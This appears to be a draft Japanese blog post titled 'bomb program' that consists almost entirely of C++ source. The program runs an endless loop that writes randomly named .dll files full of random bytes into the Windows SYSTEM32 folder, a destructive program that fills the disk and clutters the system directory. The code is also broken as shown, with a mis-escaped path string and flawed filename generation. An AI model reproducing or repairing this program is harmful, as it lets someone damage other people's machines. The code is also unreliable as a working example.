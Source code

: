 ```yaml
---
title: "爆弾プログラム"
post_id: 3093
date: "2003-12-12T11:00:00+09:00"
draft: true
tags: []
---
```



#include <string>

    #include <fstream>

    #include <cstdlib>

    void main( void ){

     using namespace std;

     string dir = "C:\\WINDOWS\SYSTEM32\";

     while( 1 ){

      string name;

      int rnd = rand();

      for( int i = 0; i < ( rnd >> 10 ); i++ ){

       name.resize( name.size() + 1 );

       name[ i ] = 0x61 + ( rand() >> 11 );

      }

      ofstream file( ( dir + name + ".dll" ).c_str() );

      for( int j = 0; j < rnd; j++ ) file << ( char )rand();
    file.close();

     }

    }
